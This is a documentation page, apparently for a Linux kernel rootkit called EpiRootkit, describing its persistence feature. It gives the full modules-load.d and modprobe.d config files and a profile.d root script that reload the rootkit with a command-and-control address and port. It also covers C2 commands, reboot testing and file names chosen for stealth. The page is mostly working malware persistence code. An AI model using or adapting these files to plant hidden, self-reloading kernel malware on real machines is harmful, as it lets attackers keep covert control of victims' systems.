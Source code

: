 ```yaml
---
title: "Persistence"
description: "Automatic rootkit loading across reboots"
icon: "autorenew"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 515
---
```




## modules-load.d Method

Modules are

Creates two files:

**`/etc/modules-load.d/jules_est_bo_system.conf`**:
```bash
# EpiRootkit module
epirootkit
```

**`/etc/modprobe.d/jules_est_bo_modprobe.conf`**:
```bash
# EpiRootkit module parameters
options epirootkit address=192.168.200.11 port=4444
```

## Shell Profile Method

Creates `/etc/profile.d/jules_est_bo_env.sh`:

```bash
#!/bin/bash
# System environment initialization
if [ "$(id -u)" -eq 0 ]; then
    # Check if module is already loaded via proc filesystem
    if [ ! -f /proc/epirootkit_status ] && ! grep -q "^epirootkit " /proc/modules 2>/dev/null; then
        modprobe epirootkit address=192.168.200.11 port=4444 2>/dev/null || insmod /lib/modules/$(uname -r)/extra/epirootkit.ko address=192.168.200.11 port=4444 2>/dev/null
    fi
fi
```

## Commands

```bash
persist                      # Install both methods
persist_remove               # Remove all
status                       # Check status
```

## Testing

```bash
sudo insmod epirootkit.ko address=192.168.200.11 port=4444
# Install persistence via C2/WebUI command: persist
sudo reboot
lsmod | grep epirootkit
```

## Status Response

```json
{
  "persistence": {
    "enabled": true,
    "methods": {
      "modules_load": {
        "active": true, 
        "files": {
          "modules_load": "/etc/modules-load.d/jules_est_bo_system.conf",
          "modprobe": "/etc/modprobe.d/jules_est_bo_modprobe.conf"
        }
      },
      "shell_profile": {
        "active": true, 
        "path": "/etc/profile.d/jules_est_bo_env.sh"
      }
    }
  }
}
```

## File Naming

- **modules-load.d**: Uses `jules_est_bo_` prefix for stealth (matches file hiding pattern)
- **modprobe.d**: Uses `jules_est_bo_` prefix for stealth consistency  
- **profile.d**: Uses `jules_est_bo_` prefix for stealth

**Reliable, standards-compliant persistence with consistent stealth naming.**